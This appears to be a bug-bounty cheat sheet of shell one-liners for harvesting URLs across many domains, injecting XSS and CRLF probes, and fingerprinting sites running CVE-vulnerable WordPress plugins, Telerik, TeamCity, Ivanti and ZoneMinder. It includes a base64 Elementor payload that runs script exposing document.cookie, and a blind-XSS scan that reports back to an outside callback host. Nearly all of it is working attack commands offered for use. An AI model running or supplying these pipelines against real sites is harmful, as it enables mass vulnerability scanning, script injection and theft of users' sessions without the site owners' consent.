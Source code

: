 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

## paramReflect
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## gau+uro+httpx(My Xss)
     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt

     cat domains.txt | uro --filter hasparams | qsreplace '"><h1>Akira</h1>' > domain4httpx.txt

     cat domain4httpx.txt | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt

    #Note: have a server ? use:
    cat domains.txt | gau --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp | uro | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E | httpx -ms "<h1>Akira</h1>" -ct -t 200 -o bounty.txt
   
## one-Line:
    cat Domains.txt | gau | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | uro | httpx -o domain4xss.txt

    cat params.js [.py|.go|paramspider.py] | uro --filter hasparams -b jpg png js json pdf txt -o 4xss.txt
## subdomain enumeration
    amass enum -active -d <DOMAIN> -dir amass_active/<DOMAIN>/
    amass enum -passive -d <DOMAIN> -dir amass_passive/<DOMAIN>/
    assetfinder <DOMAIN> | tee ./subdomains/assetfinder.txt

## web crawling
    for i in $(cat hosts-urls.txt); do katana -u $i >> ./katana_rzlts.txt; done
    cat hosts-urls.txt | hakrawler -timeout 5 -subs | tee ./hakrawler_rzlts.txt
    cat hosts-live.txt | gau --threads 15 | tee ./gau_rzlts.txt
    cat hosts-live.txt | waybackurls | tee ./wburls_rzlts.txt

## filtering
        cat katana_rzlts.txt hakrawler_rzlts.txt gau_rzlts.txt wburls_rzlts.txt | sort -u > uniq.txt; cat uniq.txt | grep "<DOMAIN>" | grep "\?" > 4xss.txt

## only params:
    grep -E -o 'https?://[^ ]+\?.+' filename

## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

## CVE-2023-0159-WPBakery
    cat alldomains.txt | httpx -path "/wp-content/plugins/wolf-visual-composer/readme.txt" -ms "Stable tag: 1." -o WPBakery.txt
    
## CVE-2017-11317-Telerik
    cat subs.txt | httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt
    
## CVE-2023-26035-zoneminder
    cat alldomains.txt | httpx -path "/index.php" -ms 'name="__csrf_magic"' -t 200 -o CVE-2023-26035.txt

## CVE-2023-38388-jupiterx
    cat privates/domainsroot.txt | httpx -path "/wp-content/plugins/jupiterx-core/readme.txt" -ms "Jupiter X Core" -o jupiter.txt

## CVE-2023-4596-forminator
    cat bugbounty/subs.txt | httpx -path '/wp-content/plugins/forminator/readme.txt' -ms  "Stable tag: 1\.([0-2][0-9]|3[0-6])\.[0-9]+" -o "forminator.txt"

## CVE-2022-1386-fusion-builder
    cat alldomains.txt | httpx -path "/wp-content/plugins/fusion-builder/readme.txt" -ms "Builder =" -o fusion-CVE-2022-1386.txt
    
## CVE-2023-42793-TeamCity
    cat alldomains.txt | httpx -path "/login.html" -ms "log in to teamcity" -o teamcity.txt

## CVE-2023-35078-Ivanti
    cat alldomains.txt | httpx -ms "ui.login.css?" -o CVE-2023-35078.txt
    
## Elementor Xss
    cat subs.txt | httpx -path "wp-content/plugins/elementor/readme.txt" -mr "(?i)Stable tag: (3\.[0-5]\.[0-5]\d*)" -o elementor.txt -t 200
    www.target.com/#elementor-action:action=lightbox&settings=ewogICAgInR5cGUiOiAidmlkZW8iLAogICAgInVybCI6ICJodHRwOi8vIiwKICAgICJ2aWRlb1R5cGUiOiAiaG9zdGVkIiwKICAgICJ2aWRlb1BhcmFtcyI6IHsKICAgICAgICAib25lcnJvciI6ImFsZXJ0KGRvY3VtZW50LmRvbWFpbisnICcrZG9jdW1lbnQuY29va2llKSIsCiAgICAgICAgInN0eWxlIjogImJhY2tncm91bmQtY29sb3I6cmVkIgogICAgfQp9
    
## Symphonic
    cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt

## Host:
    cat domains.txt | httpx -H "Host: example.com" -t 200 -ms 'example.com' -mc 200 -fe "Location: .*example.com.*"
    
## Nuclie
    cat domains.txt | nuclei -nt -es info -ept ssl -o data.txt
    nuclei -l domains.txt -nt -o data.txt
    nuclei -l domains.txt -t cves/2023 -o data.txt
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    
# dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

